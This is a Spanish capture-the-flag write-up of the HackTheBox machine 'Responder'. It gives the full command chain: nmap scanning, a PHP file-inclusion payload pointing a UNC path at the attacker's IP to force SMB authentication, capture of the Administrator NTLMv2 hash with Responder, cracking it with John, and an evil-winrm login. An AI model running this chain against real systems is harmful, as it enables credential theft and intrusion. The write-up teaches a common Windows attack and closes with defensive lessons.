Responder HTB - Writeup
Aug 12, 2026 · Windows Web Very Easy
El día de hoy vamos a resolver la máquina Responder de HackTheBox. Es una máquina Windows - Very Easy centrada en un clásico del pentesting en entornos Windows: una web PHP vulnerable a inclusión de archivos que nos permite forzar al servidor a autenticarse contra un recurso SMB controlado por nosotros. Con la herramienta Responder capturamos el hash NTLMv2 del Administrador, lo crackeamos con John y entramos por WinRM para leer la flag.

1. Enumeración inicial
Como siempre, arrancamos con un escaneo completo de puertos y detección de versiones con nmap:
sudo nmap -p- -sV -sC -T5 --min-rate 3000 -Pn 10.129.95.234
El escaneo nos revela varios puertos interesantes:
80/tcp open http Apache httpd 2.4.52 ((Win64) OpenSSL/1.1.1m PHP/8.1.1)
5985/tcp open http Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
7680/tcp open pando-pub?Dos cosas quedan claras de entrada: es una máquina Windows (por el Win64 y el CPE de nmap) y tiene un servidor web Apache con PHP 8.1.1 en el puerto 80. El puerto 5985 es WinRM, que nos servirá más adelante para conseguir una shell si obtenemos credenciales válidas.
2. Configurando el vhost
Al intentar entrar a la web nos damos cuenta de que redirige a unika.htb, un dominio que nuestra máquina todavía no sabe resolver, así que nos da un "Server Not Found":

Para resolverlo, agregamos el dominio a nuestro archivo /etc/hosts apuntando a la IP de la máquina:
sudo nano /etc/hosts
Recargamos y ahora sí carga la web: una plantilla corporativa de diseño web llamada "Unika":

3. Detectando la inclusión de archivos
Explorando la web notamos que tiene un selector de idioma. Al cambiar de idioma, la URL usa un parámetro page que carga un archivo HTML distinto:
http://unika.htb/index.php?page=german.html
Ese parámetro page que se incluye directamente en un include() de PHP es un candidato clásico a inclusión de archivos (LFI/RFI). Como es una máquina Windows, en lugar de un LFI tradicional probamos directamente una inclusión remota vía UNC/SMB: apuntamos el parámetro a un recurso compartido en nuestra propia máquina atacante:
http://unika.htb/index.php?page=//10.10.14.31/ShareFileHTB
El error de PHP es la confirmación que buscábamos: el servidor sí intenta acceder a nuestro recurso SMB (include(\\10.10.14.31\SHAREFILEHTB)). Esto significa que Windows tratará de autenticarse contra nuestra máquina para acceder al recurso... y ahí es donde entra Responder.
4. Capturando el hash NTLMv2 con Responder
Levantamos Responder en nuestra interfaz de la VPN para ponernos a la escucha y capturar cualquier intento de autenticación SMB:
sudo responder -I tun0 10.10.14.31
Con Responder escuchando, volvemos a lanzar la petición apuntando el parámetro page a nuestra IP. En cuanto el servidor intenta autenticarse contra nuestro recurso SMB, Responder captura el hash NTLMv2 de la cuenta que ejecuta el proceso:

El hash pertenece a RESPONDER\Administrator. Copiamos toda la cadena del hash y la guardamos en un archivo para poder crackearla:
nano hash.txt
Verificamos que el archivo quedó creado en nuestro directorio:
ls
5. Crackeando el hash con John
Vamos a usar John the Ripper junto al diccionario rockyou. En muchas distros viene comprimido, así que primero lo descomprimimos:
sudo gunzip /usr/share/wordlists/rockyou.txt.gz
Ahora lanzamos John contra nuestro hash usando ese diccionario:
john --session=nueva --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
John rompe el hash en cuestión de segundos: la contraseña del Administrator es badminton. Con credenciales válidas de administrador y el puerto WinRM abierto, el acceso está prácticamente hecho.
6. Acceso por Evil-WinRM y la flag
Usamos Evil-WinRM para conectarnos al servicio WinRM (puerto 5985) con las credenciales obtenidas:
evil-winrm -i 10.129.95.234 -u Administrator -p badminton
Conseguimos una shell interactiva como Administrador. Al listar C:\Users vemos que existe un usuario mike. La flag de usuario suele estar en su escritorio, así que navegamos hasta ahí y la leemos:
cd C:\Users\mike\Desktop
ls
cat flag.txt
Con eso capturamos la flag y completamos la máquina.
7. Conclusión

Responder es una máquina muy didáctica sobre uno de los vectores más frecuentes en entornos Windows reales. Todo parte de un error de programación clásico: incluir en un include() de PHP un parámetro controlado por el usuario sin sanitizar. En Windows, ese fallo permite forzar una autenticación SMB saliente hacia un servidor malicioso, donde herramientas como Responder capturan el hash NTLMv2. Si además la contraseña es débil (como badminton), un simple diccionario con John basta para recuperarla en texto plano. La lección: nunca incluir rutas controladas por el usuario, deshabilitar el acceso a recursos remotos en PHP y usar contraseñas robustas para las cuentas privilegiadas.